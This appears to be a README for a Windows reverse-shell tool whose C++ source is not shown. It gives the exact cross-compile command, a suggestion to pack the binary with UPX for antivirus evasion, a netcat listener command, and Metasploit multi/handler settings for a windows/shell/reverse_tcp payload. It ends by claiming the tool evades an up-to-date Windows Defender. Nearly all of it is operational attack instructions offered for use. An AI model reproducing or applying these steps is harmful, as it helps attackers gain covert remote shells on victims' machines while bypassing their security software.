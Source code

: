 # Compile it
````
i686-w64-mingw32-g++ shell.cpp -o shell.exe -lws2_32 -lwininet -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
````
## After Compile the exe file then use UPX (https://upx.github.io/) for the AV Evasion


# Start the netcat Listener
````
 nc -lvnp <port number>
 ````
 
 # Metasploit Handler
 ````
  use exploit/multi/handler
  set PAYLOAD windows/shell/reverse_tcp
  set LHOST <Local IP>
  set LPORT <Local Port>
  exploit -j -z 
  ````
<a href="https://ibb.co/BK4wqJq"><img src="https://i.ibb.co/84zX6w6/Screenshot-from-2020-11-30-12-24-52.png" alt="Screenshot-from-2020-11-30-12-24-52" border="0"></a>

Tested on updated(30.11.2020) Windows 10 device with Windows Defender and Cloud Protection enabled.
